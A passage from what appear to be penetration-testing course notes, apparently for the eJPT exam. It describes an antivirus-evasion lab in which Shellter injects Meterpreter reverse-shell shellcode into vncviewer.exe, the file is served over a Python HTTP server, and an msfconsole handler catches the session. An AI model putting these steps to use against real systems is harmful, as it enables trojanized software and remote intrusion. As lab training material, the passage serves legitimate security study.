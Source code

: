![Shellter](.gitbook/assets/image-20230424164836529.png)

- Inject the shellcode into`/usr/share/windows-binaries/vncviewer.exe` file after copying it to a folder

```bash
mkdir AVBypass
cd AVBypass
cp /usr/share/windows-binaries/vncviewer.exe .
```

- In the `SHELLTER` windows, choose `A` for automatic
- PE Target: `/home/kali/certs/ejpt/AVBypass/vncviewer.exe`

![](.gitbook/assets/image-20230424171059096.png)

- Stealth Mode: `Y` = `vncviewer` will function as normal and the shellcode will be executed in the background
- Payload: `L` - `1`
- LHOST: Attacker's IP - `192.168.31.128`
- LPORT: `1234`

![](.gitbook/assets/image-20230424165719721.png)

![](.gitbook/assets/image-20230424165739262.png)

- Now the `/home/kali/certs/ejpt/AVBypass/vncviewer.exe` **file has been replaced by the Shellter generated malicious executable**
- Copy the `vncviewer.exe` file to the target machine

```bash
# Attacker VM
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

# In another terminal
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

![vncviewer.exe file copied](.gitbook/assets/image-20230424171306459.png)

- Run the `vncviewer.exe` file and chheck the `msfconsole` Meterpreter session

![](.gitbook/assets/image-20230424171404008.png)

### PowerShell Code Obfuscation

[**`Invoke-Obfuscation`**](https://github.com/danielbohannon/Invoke-Obfuscation) - *a PowerShell v2.0+ compatible PowerShell command and script obfuscator.*
